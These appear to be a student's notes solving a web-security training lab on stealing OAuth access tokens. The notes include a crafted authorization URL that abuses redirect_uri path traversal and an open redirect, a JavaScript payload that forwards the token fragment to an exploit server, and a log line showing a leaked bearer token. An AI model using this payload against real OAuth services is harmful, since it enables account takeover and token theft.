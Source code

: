 3.
https://exploit-0a83009b04d7a673c0362e2401f00036.web-security-academy.net/exploit

avengers assamble!:
https://oauth-0adb00460487a6c3c0392e5f02110022.web-security-academy.net/auth?client_id=do56u1zrsd8zhv08oimzq&redirect_uri=
https://0a1a000f047ca6e6c0762eaf00c6002e.web-security-academy.net/oauth-callback
/../post/next?path=
https://exploit-0a83009b04d7a673c0362e2401f00036.web-security-academy.net/exploit
&response_type=token&nonce=884658517&scope=openid%20profile%20email

final payload:
https://oauth-0adb00460487a6c3c0392e5f02110022.web-security-academy.net/auth?client_id=do56u1zrsd8zhv08oimzq&redirect_uri=https://0a1a000f047ca6e6c0762eaf00c6002e.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a83009b04d7a673c0362e2401f00036.web-security-academy.net/exploit&response_type=token&nonce=884658517&scope=openid%20profile%20email


script to load the window as a page:

<script>
if (!document.location.hash) {
window.location = 'payload'
} else {
window.location = '/?'+document.location.hash.substr(1)
}
</script>

the script checks for hash presence and puts all fragments (minus the 0 index char = #) after a /? to make it a logged param so our server can see it in the access log

explanation about the script:
https://youtu.be/grkMW56WX2E?t=447



<script>
if (!document.location.hash) {
window.location = 'https://oauth-0adb00460487a6c3c0392e5f02110022.web-security-academy.net/auth?client_id=do56u1zrsd8zhv08oimzq&redirect_uri=https://0a1a000f047ca6e6c0762eaf00c6002e.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a83009b04d7a673c0362e2401f00036.web-security-academy.net/exploit&response_type=token&nonce=884658517&scope=openid%20profile%20email'
} else {
window.location = '/?'+document.location.hash.substr(1)
}
</script>


check exploit server log - find leaked infornation:

10.0.4.166      2022-07-29 17:38:12 +0000 "GET /?access_token=ZHvzcAGdTG-rdfXAsZXbBpiuNAQq0L_F5C70CgGBwbB&expires_in=3600&token_type=Bearer&scope=openid%20profile%20email HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36"


search for bearer in request or apikey in respnses observe /me request with access token in Authorization header - change token to leaked admin token:
